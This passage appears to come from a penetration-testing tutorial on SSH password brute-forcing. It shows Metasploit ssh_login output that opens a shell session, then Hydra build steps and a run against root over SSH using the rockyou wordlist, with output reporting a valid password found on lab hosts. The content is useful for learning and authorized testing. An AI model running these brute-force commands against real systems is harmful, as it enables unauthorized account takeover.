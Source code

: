 ```
msf5 auxiliary(scanner/ssh/ssh_login) > run
[+] 192.168.1.94:22 - Success: 'noraj:noraj' ''
[*] Command shell session 1 opened (192.168.1.83:37291 -> 192.168.1.94:22) at 2020-01-02 21:33:33 +0100
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

### Hydra

Github：https://github.com/vanhauser-thc/thc-hydr

```
# yum install -y openssl-devel pcre-devel ncpfs-devel postgresql-devel libssh-devel subversion-devel libncurses-devel
# yum install -y gcc gcc-c++
# git clone https://github.com/vanhauser-thc/thc-hydra
# cd thc-hydra
# ./configure --prefix=/opt/hydra
# make
# make install

Now type make install
strip hydra pw-inspector
echo OK > /dev/null && test -x xhydra && strip xhydra || echo OK > /dev/null
mkdir -p /opt/hydra/bin
cp -f hydra-wizard.sh hydra pw-inspector /opt/hydra/bin && cd /opt/hydra/bin && chmod 755 hydra-wizard.sh hydra pw-inspector
echo OK > /dev/null && test -x xhydra && cp xhydra /opt/hydra/bin && cd /opt/hydra/bin && chmod 755 xhydra || echo OK > /dev/null
sed -e "s|^INSTALLDIR=.*|INSTALLDIR="/opt/hydra"|" dpl4hydra.sh | sed -e "s|^LOCATION=.*|LOCATION="/etc"|" > /opt/hydra/bin/dpl4hydra.sh
chmod 755 /opt/hydra/bin/dpl4hydra.sh
mkdir -p /opt/hydra/etc
cp -f *.csv /opt/hydra/etc
mkdir -p /opt/hydra/man/man1/
cp -f hydra.1 xhydra.1 pw-inspector.1 /opt/hydra/man/man1/

# ln -s /opt/hydra/bin/hydra /usr/bin/

# hydra -l root -P /usr/share/wordlists/password/rockyou.txt -e s ssh://192.168.11.205
Hydra v9.1-dev (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-02-17 02:36:58
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 4 tasks per 1 server, overall 4 tasks, 4 login tries (l:1/p:4), ~1 try per task
[DATA] attacking ssh://192.168.11.205:22/
[22][ssh] host: 192.168.11.205   login: root   password:  
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-02-17 02:37:00
```


[^1]: kali linux [www.offensive-security.com](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/)
